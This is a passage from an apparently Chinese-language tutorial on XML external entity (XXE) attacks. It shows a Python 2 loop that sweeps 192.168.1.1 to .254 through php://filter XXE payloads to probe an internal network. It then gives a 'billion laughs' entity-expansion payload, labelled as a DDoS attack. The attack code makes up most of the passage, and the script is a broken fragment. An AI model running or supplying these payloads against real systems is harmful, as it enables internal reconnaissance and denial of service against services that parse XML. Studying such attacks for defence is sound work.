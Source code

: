 ```
    print coded_string

#   print base64.b64decode(coded_string)

for i in range(1, 255):

    try:

        i = str(i)

        ip = '192.168.1.' + i

        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'

        print string

        build_xml(string)

    except:

      print "error"

continue
```

运行起来大概是这样

[![](https://p3.ssl.qhimg.com/t01b73d8a77933b6911.png)](https://p3.ssl.qhimg.com/t01b73d8a77933b6911.png)

**DDOS攻击**

```
&lt;?xml version="1.0"?&gt;

&lt;!DOCTYPE lolz [

  &lt;!ENTITY lol "abc"&gt;

  &lt;!ENTITY lol2 "&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;"&gt;

  &lt;!ENTITY lol3 "&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;"&gt;

  &lt;!ENTITY lol4 "&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;"&gt;

  &lt;!ENTITY lol5 "&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;"&gt;

  &lt;!ENTITY lol6 "&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;"&gt;

  &lt;!ENTITY lol7 "&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;"&gt;

  &lt;!ENTITY lol8 "&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;"&gt;

  &lt;!ENTITY lol9 "&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;"&gt;

]&gt;

```